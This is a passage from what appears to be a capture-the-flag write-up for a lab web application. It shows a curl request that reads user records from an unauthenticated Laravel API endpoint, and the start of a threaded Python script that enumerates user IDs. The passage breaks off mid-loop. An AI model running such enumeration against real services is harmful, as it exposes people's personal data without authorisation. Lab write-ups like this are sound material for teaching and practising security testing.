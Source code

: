 ```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Generic-University)-[2023.02.21|20:57:19(HKT)]
└> curl -v http://generic-university.thm/api/users/6
*   Trying 10.10.15.101:80...
* Connected to generic-university.thm (10.10.15.101) port 80 (#0)
> GET /api/users/6 HTTP/1.1
> Host: generic-university.thm
> User-Agent: curl/7.87.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Tue, 21 Feb 2023 12:57:21 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Cache-Control: no-cache, private
< Set-Cookie: XSRF-TOKEN=eyJpdiI6Im0xTEpQNzdFTXF5QlM1elZnV3hnVUE9PSIsInZhbHVlIjoiaWU5RjRHVjBPblJ6WEdkZnplQlUxeHFaWWdDc29VMDg2ZDJiemxnMGFqK08yRzRCdGRUU2lvbWtEYkZpTjdUQW8rOTEyQXpOOGFsYWovQzFoZ0kyeC9lNTFNUUZzcGVhQURMN0ZmV0w1dVZvcENSckN2VStCbGMza1M2TjJjRWoiLCJtYWMiOiIxYzM0YTMyYTI0ODUyMWIwNmM1NWU4ZjQzMWNjNjQ5N2U1Y2RlNWNjYTViNDE2N2Y1MmRmOTQwZmM2OGRjNzE1In0%3D; expires=Tue, 21-Feb-2023 14:57:21 GMT; Max-Age=7200; path=/; samesite=lax
< Set-Cookie: laravel_session=eyJpdiI6InRQRFlxMjg2d2ZBcm9mREcyMUU5WWc9PSIsInZhbHVlIjoiekxQTXBDN2REMURFZnR3UWE0Nkk5Q0ZnUkdXdVhpY0JrMWlVSXJmbk13Z0Z4c0RMcXFaRHc1YjJzN1dTc3FJRWZUNDZ2MWtCVGIyT1VuZ2RMSGY2ZXRodi9KalhPWmtFVlBYRjczQ01NWnI3OVdiOFp2cmplUXJyZzBiNU1xQ2wiLCJtYWMiOiIzMTkyYTc3YzdhMjBlNmE0MzYwNzRkOTAxZGJjY2NiNGQzZTFmYmVkNWE2N2ZmYTkxNGZjZGUxMGRjNTJmMGE3In0%3D; expires=Tue, 21-Feb-2023 14:57:21 GMT; Max-Age=7200; path=/; httponly; samesite=lax
< Content-Length: 190
< Content-Type: application/json
< 
* Connection #0 to host generic-university.thm left intact
{"id":6,"name":"IT Nicola Langworth","email":"laura97@douglas.net","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":1}
```

We can reach that endpoint **without authentication**!

That being said, we can enumerate all users in this web application!

Also, when we reach the website, it'll set 2 new cookies: `XSRF-TOKEN` and `laravel_session`. Which indicates that **this web application is using a PHP framework called Laravel**.

**Let's write a simple Python script to automate the enumeration!**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

class Requester:
    def __init__(self, URL, apiEndpoint):
        self.URL = URL
        self.apiEndpoint = apiEndpoint

    def sendRequest(self, userId):
        userAPIRequestResult = requests.get(self.URL + self.apiEndpoint + str(userId))

        if "{'not found':true}" not in userAPIRequestResult.text:
            print(f'[+] Found valid user ID: {userId}')
            print(f'[+] user ID {userId} data: {userAPIRequestResult.text}')

def main():
    URL = 'http://generic-university.thm'
    apiEndpoint = '/api/users/'

    requester = Requester(URL, apiEndpoint)
    for userId in range(100):
```